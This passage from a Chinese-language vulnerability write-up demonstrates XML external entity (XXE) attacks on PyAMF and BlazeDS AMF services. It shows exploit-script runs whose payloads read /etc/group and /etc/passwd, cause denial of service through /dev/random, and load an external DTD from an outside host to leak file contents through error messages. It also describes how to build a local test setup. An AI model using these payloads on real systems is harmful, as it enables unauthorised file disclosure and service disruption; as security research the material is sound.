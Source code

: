 可以看到，常规的实体可以被成功解析，再进一步试试外部实体。

```
#!bash
$ ./amf_xxe.py http://192.168.22.201:8081/ echo ext_group
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'echo'
[+] Payload 'ext_group': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///etc/group"> ]><x>External entity 1: &foo;</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onResult..null.......i<x>External entity 1: root:x:0:
daemon:x:1:
bin:x:2:
[...]
xbot:x:1000:
</x>
[+] Done
```

这说明PyAMF确实存在XXE漏洞，然而实际的生产环境中，我们却很难找到一个接口，会将解析后的XML数据呈现在返回数据中。当然，我们也知道存在不需要回显的XXE利用办法，但是经过作者的测试发现：（1）远程的URL被禁止使用；（2）没有其它一些好用的URL协议；（3）使用了通用的报错信息，使得我们并不能从报错信息里获得有用的信息。即便如此，用这个漏洞来进行拒绝服务还是可行的，例如通过访问`/dev/random`。

```
#!bash
$ ./amf_xxe.py http://192.168.22.201:8081/ wtf ext_rand
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'wtf'
[+] Payload 'ext_rand': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///dev/random"> ]><x>External entity 2: &foo;</x>'
[+] Sending the request...
[!] Connection OK, but a timeout was reached...
[+] Done
```

# 0x03 漏洞利用之二 （跑在Java web服务上的BlazeDS）

------

lazeDS 在利用上比PyAMF要相对容易得多，这是因为：（1）我们可以使用一些java所支持的URL协议（比如http、ftp、jar）来对内部网络进行刺探；同时在利用上，我们也可以调用外部的DTD文件；（2）错误信息详细，会泄漏出相关的敏感信息；（3）java上的XXE允许通过file协议来进行列目录，这样十分有利于我们查找我们所感兴趣的文件。与PyAMF一样，我们利用的时候，并不需要知道这个AMF服务器到底注册了哪些可用的服务。

为了方便测试，我们可以在本地搭建测试环境，首先从[http://sourceforge.net/adobe/blazeds/wiki/download%20blazeds%204/](http://sourceforge.net/adobe/blazeds/wiki/download blazeds 4/)这里去下载2011年版本的BlazeDS，原作者下载的是turnkey格式，下载完成解压后，将解压文件放入Tomcat的bin目录中，然后执行`startup.sh`，然后你就可以通过http://127.0.0.1:8400/samples/messagebroker/amf来对BlazeDS进行访问了。我自己所下载的是binary的格式，解压后就是一个war包，自己部署一下，就可以访问了。

部署完成后，就是通过利用脚本`amf_xxe.py`对服务进行测试，效果如下：

```
#!bash
$ ./amf_xxe.py http://127.0.0.1:8400/samples/messagebroker/amf  foo prm_url
[+] Target URL: 'http://127.0.0.1:8400/samples/messagebroker/amf'
[+] Target service: 'foo'
[+] Payload 'prm_url': '<!DOCTYPE x [ <!ENTITY % foo SYSTEM "http://somewhere/blazeds.dtd"> %foo; ]><x>Parameter entity 3</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onStatus.......
.Siflex.messaging.messages.ErrorMessage.headers.rootCause body.correlationId.faultDetail.faultString.clientId.timeToLive.destination.timestamp.extendedData.faultCode.messageId
........[Error deserializing XML type no protocol: _://root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```